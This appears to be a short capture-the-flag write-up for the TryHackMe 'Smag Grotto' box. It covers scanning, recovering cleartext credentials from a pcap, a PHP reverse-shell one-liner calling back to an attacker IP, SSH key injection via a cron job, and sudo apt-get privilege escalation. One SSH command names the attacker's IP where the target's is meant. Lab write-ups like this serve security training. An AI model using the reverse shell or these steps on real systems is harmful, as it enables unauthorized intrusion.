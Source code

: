 ```yaml
---
layout: post
title: "SMAG-GROTTO | THM "
date: 2021-11-20 00:46:00 -0000
categories: CTF THM
---
```


<h3>Executive Summary</h3> 

The server has hardcoded details present within a public facing email chain. Those credentials can be abused to get access to an admin portal and from there a reverse shell can be initiated. Once on the box itself, the ssh key infastructure is vulnerable to injection. An attacker can inject his own ssh key pair and move laterally from there. Once on as a regular user, credentials can be extracted from easily accessible log files. User can also escalate to root through sudo abuse of the apt-get program. 


<h3>Technical Details</h3>
<h2>Enumeration</h2>

First, lets see what is running on the box: 

nmap 10.10.6.75
-Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 01:12 EST
-Nmap scan report for 10.10.6.75
-Host is up (0.085s latency).
-Not shown: 998 closed tcp ports (conn-refused)
-PORT   STATE SERVICE
-22/tcp open  ssh
-80/tcp open  http
-
-Nmap done: 1 IP address (1 host up) scanned in 1.44 seconds

Lets navigate to the webserver that is running. Not much is here so lets enumerate the webserver: 

gobuster dir -w /SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.6.75 -x txt,php -t64 

//===============================================================
//Gobuster v3.1.0
//by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
//===============================================================
//[+] Url:                     http://10.10.6.75
//[+] Method:                  GET
//[+] Threads:                 64
//[+] Wordlist:                /home/toad/bin/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
//[+] Negative Status codes:   404
//[+] User Agent:              gobuster/3.1.0
//[+] Extensions:              txt,php
//[+] Timeout:                 10s
//===============================================================
//2021/11/20 01:15:24 Starting gobuster in directory enumeration mode
//===============================================================
/mail                 (Status: 301) [Size: 307] [--> http://10.10.6.75/mail/]
/index.php            (Status: 200) [Size: 402]

/mail is interesting. Upon investigation, there is a .pcap file discussed on this public facing webserver. There is a specific comment to use wget to download the file. If we download that file with wget and open with Wireshark, it is a short file with some TCP connections. Right clicking and selecting follow TCP stream will reveal some credentials being transmitted in clear text.

nice. There is one wrinkle, the POST request for this file is aimed at the hostname development.smag.thm. So, we need to tie that hostname to the IP address of the box. We can do that by editing our /etc/hosts file. 

10.10.6.75   development.smag.thm

Then we can navigate to the endpoint that was found in the PCAP file. Upon navigating there we find a login screen. 

<h2>Initial Foothold</h2>

When we login, there is a prompt that will let us send a command. Perfect for a reverse shell. A simple oneliner shell command from the Pentest Monkey will work. 

php -r '$sock=fsockopen("10.6.10.177",9999);exec("/bin/sh -i <&3 >&3 2>&3");'

<h2>Lateral Movement</h2>

id -> www and we can't read /home/jake/user.txt. After some basic linux enumeration, we find an interesting crontab. The public key is being regularly updated to the user's ssh directory. We can inject our own key pair after running ssh-keygen -o on our own box. Then wait. Then we can ssh with -i {path_to_key} jake@10.6.10.177

<h2>Priv Esc </h2>

Now we are in as Jake. Priv Esc isn't needed to read the root flag, you can just read the vim history. Run the classic sudo -l and we find a viable path to escalation through sudo apt-get. Follow the instructions on GTFO bins to acheive this. 



Sparse write up will be more detailed in future. 
